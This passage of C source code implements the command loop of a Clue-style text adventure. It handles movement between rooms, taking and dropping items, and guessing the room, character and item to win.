            printf("look: show info about current room \n");
            printf("room: show the name of the room you are currently in\n");
            printf("take (item): take item from room to inventory \n");
        } else if (!strcmp(input, "list")) {
            printf("Items: \n");
            for (int i = 0; i < 6; ++i) {
                printf("%200s \n", item_names[i]);
            }
            printf("\nCharacters: \n");
            for (int i = 0; i < 5; ++i) {
                printf("%200s \n", character_names[i]);
            }
            printf("\nRooms: \n");
            for (int i = 0; i < 9; ++i) {
                printf("%200s \n", room_names[i]);
            }
        } else if (!strcmp(input, "look")) {
            print_room(current_room);
        } else if (!strcmp(input, "room")) {
            print_room_name(current_room);
        } else if (!strcmp(input, "go")) {
            printf("Type a direction (north|south|east|west): \n");
            while (1) {
                scanf("%s", input);
                if (!strcmp(input, "north") && current_room->n != 0) {
                    current_room = current_room->n;
                } else if (!strcmp(input, "south") && current_room->s != 0) {
                    current_room = current_room->s;
                } else if (!strcmp(input, "east") && current_room->e != 0) {
                    current_room = current_room->e;
                } else if (!strcmp(input, "west") && current_room->w != 0) {
                    current_room = current_room->w;
                } else {
                    printf("Invalid input! Choose a non-empty room between (north|south|east|west) \n");
                    continue;
                }
                break;
            }
            printf("Current room: \n");
            print_room(current_room);

        } else if (!strcmp(input, "take")) {
            if (is_empty(&current_room->items)) printf("The room has no items! Choose another command!\n");
            else {
                printf("Choose an item to take: \n");
                while (1) {
                    print_list(&current_room->items);
                    scanf("%s", input);
                    char *result = remove_item(&current_room->items, input);
                    if (result) {
                        insert_first(&player_inventory, result);
                        printf("Player inventory: \n");
                        print_list(&player_inventory);
                    } else {
                        printf("Invalid input! Choose only the given items \n");
                        continue;
                    }
                    break;
                }
            }
        } else if (!strcmp(input, "drop")) {
            if (is_empty(&player_inventory)) printf("Your inventory has no items! Choose another command!\n");
            else {
                printf("Choose an item to drop: \n");
                while (1) {
                    print_list(&player_inventory);
                    scanf("%s", input);
                    char *result = remove_item(&player_inventory, input);
                    if (result) {
                        insert_first(&current_room->items, result);
                        print_room(current_room);
                    } else {
                        printf("Invalid input! Choose only the given items: \n");
                        continue;
                    }
                    break;
                }
            }

        } else if (!strcmp(input, "inventory")) {
            printf("Player inventory: \n");
            print_list(&player_inventory);
        } else if (!strcmp(input, "clue")) {
            if (is_empty(&player_inventory) && is_empty(&current_room->items)) {
                printf("There are no valid items! Pick a different action!\n");
                continue;
            }
            printf("Choose a character: \n");
            int chosen_character = -1;
            while (1) {
                for (int i = 0; i < 5; ++i) {
                    printf("%200s \n", character_names[i]);
                }
                scanf("%s", input);
                for (int i = 0; i < 5; ++i) {
                    if (!strcmp(input, character_names[i])) {
                        chosen_character = i;
                        break;
                    }
                }
                if (chosen_character != -1) {
                    break;
                } else {
                    printf("Invalid input! Choose a valid character: \n");
                    continue;
                }
            }
            printf("Choose an item in your inventory or in the room: \n");
            char *chosen_item = 0;
            while (1) {
                printf("Player inventory:\n");
                print_list(&player_inventory);
                printf("Current room's items:\n");
                print_list(&current_room->items);
                scanf("%s", input);
                chosen_item = check_item(&player_inventory, input);
                if (chosen_item == 0) {
                    chosen_item = check_item(&current_room->items, input);
                }
                if (chosen_item == 0) {
                    printf("Invalid input! Choose only the given items: \n");
                    continue;
                }
                break;
            }
            char *character = remove_item(&character_position[chosen_character]->characters, character_names[chosen_character]);
            insert_first(&current_room->characters, character);
            character_position[chosen_character] = current_room;
            int64_t right_room = !strcmp(answer_room, current_room->name);
            int64_t right_character = !strcmp(answer_character, character);
            int64_t right_item = !strcmp(answer_item, chosen_item);
            if (right_room) printf("Room Match\n");
            if (right_character) printf("Character Match\n");
            if (right_item) printf("Item Match\n");

            if (right_room & right_character & right_item) {
                printf("You win! yayyy!\n");
                return 0;
            }
        } else {
            printf("Invalid command! Type \"help\" to get a list of commands.");
        }
    }
}
```